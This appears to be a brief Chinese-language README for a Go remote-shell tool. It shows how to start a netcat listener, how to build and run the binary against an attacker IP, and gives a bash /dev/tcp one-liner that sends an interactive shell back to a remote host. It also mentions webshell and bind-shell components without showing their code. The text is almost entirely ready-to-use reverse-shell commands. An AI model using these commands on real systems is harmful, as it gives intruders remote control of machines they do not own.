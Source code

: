 # shell

## 反向连接
启动服务:
`nc -lvp 33889`

编译运行:
```
go build
./shell 10.10.x.x:33889
```


命令行bash反弹:
```
bash -i >& /dev/tcp/10.10.x.x/33889 0>&1
```

## webshell:
看代码

## bind_shell:
看代码